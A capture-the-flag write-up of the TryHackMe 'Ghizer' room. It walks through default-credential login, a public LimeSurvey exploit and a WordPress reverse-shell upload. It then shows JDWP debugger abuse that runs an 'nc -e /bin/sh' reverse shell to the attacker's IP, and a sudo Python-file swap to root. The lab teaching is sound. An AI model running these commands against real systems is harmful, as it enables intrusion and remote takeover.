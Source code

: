# 51 - Ghizer (java-rmi/java rmi, JDWP Debug Port exploitation)

Room Link --> [https://tryhackme.com/room/ghizerctf](https://tryhackme.com/room/ghizerctf)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -v 10.10.160.244 -p- -sV

Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
21/tcp    open     ftp?
80/tcp    open     http       Apache httpd 2.4.18 ((Ubuntu))
443/tcp   open     ssl/http   Apache httpd 2.4.18 ((Ubuntu))
18002/tcp open     java-rmi   Java RMI
35797/tcp open     java-rmi   Java RMI
44993/tcp open     tcpwrapped
```
{% endcode %}

#### Dirsearch enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
dirsearch -u http://10.10.160.244 -x 403 -w /usr/share/dirb/wordlists/common.txt -t 500 -x 503

/assets
/admin
/application
/docs
/framework
/installer
/index.php
/locale
/plugins
/server-status
/upload
/themes
/tmp
/tests
# all dead ends :(
```
{% endcode %}

The `/admin` dir. Googled default password for LimeSurvey and got `admin : password` .

And it worked.

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search for an exploit for the specific version on google and got: [https://www.exploit-db.com/exploits/46634](https://www.exploit-db.com/exploits/46634)

And we get access to a very limited shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Search for 'config.php' file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ find / -type f -iname 'config.php' 2>/dev/null

$ cat /var/www/html/limesurvey/application/config/config.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`Anny :  P4$W0RD!!#S3CUr3!` .

#### Wordpress enum

Goto the webserver on port 443: `https://10.10.160.244/` - we get the wordpress site, clicking on the login, and we get redirected to the login panel.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can upload a reverse shell in zip format in order to get a rev shell.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Veronica

We use “**linpeas.sh**” script and we enumerated connections in use of **ghidraDebug** with **Veronica** user.

<figure><img src="https://1.bp.blogspot.com/-11q8WG15zDo/X7irvP-1DRI/AAAAAAAAq30/ETruuKRub1kPHc-TLgbk14heRi0lMvw1gCLcBGAsYHQ/s16000/13.png" alt=""><figcaption></figcaption></figure>

We enumerate **GhidraDebug** service internal on port **18001**.

<figure><img src="https://1.bp.blogspot.com/-kjnBRfJ-I30/X7ir4R_RviI/AAAAAAAAq4A/HSOZQFjbyegl_ImA-Fw9LRI12_PXzRk6wCLcBGAsYHQ/s16000/14.png" alt=""><figcaption></figcaption></figure>

We exploit it from the victim box.

{% code overflow="wrap" %}
```bash
jdb -attach 127.0.0.1:18001
classpath
classes
stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
# wait for a "Logj2-Tf" terminal.
print new java.lang.Runtime().exec("nc.traditional 10.18.88.214 9001 -e /bin/sh")

# setup nc listener.
nc -nvlp 9001
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Root

`sudo -l` - there is the `env-reset` also, meaning we can create new env path for files.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can execute this cmd as root. We cant modify the file but we can delete it and replace it with a modified one to get root.

{% code overflow="wrap" %}
```bash
veronica@ubuntu:~$ rm -rf /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ sudo -u root /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Done !

